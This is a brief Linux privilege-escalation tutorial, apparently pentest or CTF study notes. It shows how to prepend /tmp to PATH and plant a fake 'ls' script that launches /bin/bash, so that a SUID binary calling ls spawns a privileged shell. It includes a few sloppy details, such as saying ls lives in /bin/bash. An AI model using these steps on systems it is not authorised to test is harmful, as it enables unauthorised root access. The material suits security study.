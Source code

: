 PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.
# Useful Commands:

To view the Path of the relevant user:

```bash
echo $PATH
```
# Exploiting $PATH

First, let's suppose we have a SUID binary file. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ls", now what we can do is add a to add a path to $PATH variable like /tmp for example using the following command:

```bash
export PATH=/tmp:$PATH
```

Then, we will write a script that executes a shell and name it with the same command name that the SUID binary file uses, for example echo "/bin/bash" > ls . Here is the Syntax:

```bash
echo "[whatever command we want to run]" > [name of the executable we are imitating]
```

Finally we will use `chmod +x ls` to make it executable and just run the SUID binary file, and what will happen that the script inside the SUID binary will run the `ls` command inside the `tmp` folder instead of the one in `/bin/bash` for example.

To reset the PATH variable back to default, use the following command:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr//games:/usr/local/games:$PATH
```